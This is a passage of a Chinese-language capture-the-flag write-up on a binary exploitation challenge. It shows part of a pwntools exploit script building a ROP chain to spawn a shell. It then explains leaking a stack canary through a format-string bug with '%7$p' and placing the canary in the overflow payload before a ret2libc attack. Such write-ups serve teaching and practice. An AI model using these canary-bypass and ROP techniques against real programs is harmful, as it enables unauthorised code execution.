payload = payload.rjust(0x20,b'a')+b'a'*8+p64(pop_rdi)+p64(binsh_addr)+p64(system_addr)+
p64(vuln_addr)
p.sendlineafter('story!\n',payload)
p.interactive()
```

**审题**

- `checksec`一下，发现开启了NX和canary

- ida看一下，直接去`gift()`函数

  - 

  - v2就是canary值（一会后面解释canary保护），距离rbp为`0x-8`
  - 这里还读入了format函数，格式化字符串试试，看看我们的第几个输入可以被解析为格式化字符
  - 我是输入`aa%n$p`,一个个试过去，看看哪个对应出61，最后发现输入`aa%6$p`的时候输出为`aa0x702436256161`，说明：**第六个参数可以被解析成格式化字符串**
  - 接下来动态调试一下看看canary的值是哪个（不出意外就是后一个）
    - 在printf处下断点，然后run运行到断点处，输入aa，然后查看栈结构
    - 
    - canary值（v2)在rbp-8处，而我们输入的aa在它的上面，所以canary值可以用`%7$p`打印出来

**canary保护**

简单来说，就是程序在开始运行前从一块只读数据中读出来一个随机数存在栈底（rbp上面一个），然后返回的时候看看栈底这个数变了没，变了就说明被栈溢出了，程序中断。

而想要绕过也很简单，只需要我们将canary的值读出来，在构造payload的时候放在它本来就该在的位置就好了

```python
payload = p64(canary)	# 写入canary值
payload = payload.rjust(0x20,b'a')	# buf距离rbp为0x20，所以直接将canary和垃圾数据一起填满这32字节
```

*后面就是正常的ret2libc了，都写烂了要，不说了*
